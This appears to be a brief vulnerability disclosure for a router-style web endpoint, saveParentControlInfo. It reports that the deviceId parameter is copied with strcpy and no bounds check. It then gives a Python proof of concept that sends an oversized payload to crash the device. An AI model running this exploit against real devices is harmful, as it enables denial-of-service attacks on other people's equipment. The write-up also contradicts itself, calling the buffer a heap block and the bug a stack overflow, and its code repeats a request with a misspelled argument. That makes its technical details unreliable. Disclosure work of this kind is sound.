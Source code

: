 In the function saveParentControlInfo, the program passes the content obtained from the parameter "deviceId" to the heap block s created by the program, and then directly copies the value of deviceId into the heap s using the strcpy function. There is no size check, which leads to a stack overflow vulnerability. An attacker can easily execute a denial-of-service attack using carefully crafted overflow data.

<img width="415" height="324" alt="image" src="https://github.com/user-attachments/assets/f9bb26dc-102b-4b7c-a36f-eb6c496a844b" />


POC：
```
from pwn import *
import requests

payload = b'a'*0x1000

url = "http://192.168.100.254/goform/saveParentControlInfo"

cookie = {"Cookie":"password=12345"}
data = {"deviceId": payload,"time": "1"}
response = requests.post(url, cookies=cookie, data=data)
response = requests.post(url, caookies=cookie, data=data)
print(response.text)
```
